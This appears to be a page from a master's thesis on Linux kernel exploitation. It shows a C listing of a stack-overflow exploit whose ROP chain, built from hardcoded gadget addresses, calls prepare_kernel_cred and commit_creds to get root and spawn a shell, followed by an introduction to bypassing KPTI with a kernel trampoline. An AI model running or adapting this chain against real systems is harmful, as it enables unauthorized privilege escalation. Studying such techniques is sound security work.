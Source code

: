 \documentclass{masterthesis}
\begin{document}
\begin{lstlisting}
void get_shell(void){
    puts("[*] Returned to userland");
    if (getuid() == 0){
        printf("[*] UID: %d, got root!\n", getuid());
        system("/bin/sh");
    } else {
        printf("[!] UID: %d, did not get root\n", getuid());
        exit(-1);
    }
}
unsigned long user_rip = (unsigned long)get_shell;

unsigned long pop_rdi_ret = 0xffffffff81006370;
unsigned long pop_rdx_ret = 0xffffffff81007616; // pop rdx ; ret
unsigned long cmp_rdx_jne_pop2_ret = 0xffffffff81964cc4; // cmp rdx, 8 ; jne 0xffffffff81964cbb ; pop rbx ; pop rbp ; ret
unsigned long mov_rdi_rax_jne_pop2_ret = 0xffffffff8166fea3; // mov rdi, rax ; jne 0xffffffff8166fe7a ; pop rbx ; pop rbp ; ret
unsigned long commit_creds = 0xffffffff814c6410;
unsigned long prepare_kernel_cred = 0xffffffff814c67f0;
unsigned long swapgs_pop1_ret = 0xffffffff8100a55f; // swapgs ; pop rbp ; ret
unsigned long iretq = 0xffffffff8100c0d9;

void overflow(void){
    unsigned n = 50;
    unsigned long payload[n];
    unsigned off = 16;
    payload[off++] = cookie;
    payload[off++] = 0x0; // rbx
    payload[off++] = 0x0; // r12
    payload[off++] = 0x0; // rbp
    payload[off++] = pop_rdi_ret; // return address
    payload[off++] = 0x0; // rdi <- 0
    payload[off++] = prepare_kernel_cred; // prepare_kernel_cred(0)
    payload[off++] = pop_rdx_ret;
    payload[off++] = 0x8; // rdx <- 8
    payload[off++] = cmp_rdx_jne_pop2_ret; // make sure JNE does not branch
    payload[off++] = 0x0; // dummy rbx
    payload[off++] = 0x0; // dummy rbp
    payload[off++] = mov_rdi_rax_jne_pop2_ret; // rdi <- rax
    payload[off++] = 0x0; // dummy rbx
    payload[off++] = 0x0; // dummy rbp
    payload[off++] = commit_creds; // commit_creds(prepare_kernel_cred(0))
    payload[off++] = swapgs_pop1_ret; // swapgs
    payload[off++] = 0x0; // dummy rbp
    payload[off++] = iretq; // iretq frame
    payload[off++] = user_rip;
    .....
}

\end{lstlisting}
\section{Adding KPTI}
\label{sect:trampoline}
As mentioned in the paragraph (quote the part with ktpi) the user-space and kernel-space page tables are separate. In fact, in user mode, a page set includes user-space page tables and only a few kernel-space addresses.
There are several ways to bypass this mitigation, but the one we are going to look at is called a \emph{trampoline}.
Logically if a system call returns normally there must be a piece of code in the kernel that swaps the page tables to the userland, so we will try to reuse that code for our purpose.
This piece of code is called a trampoline and swaps the page tables, swapgs, and iretq.
\end{document}
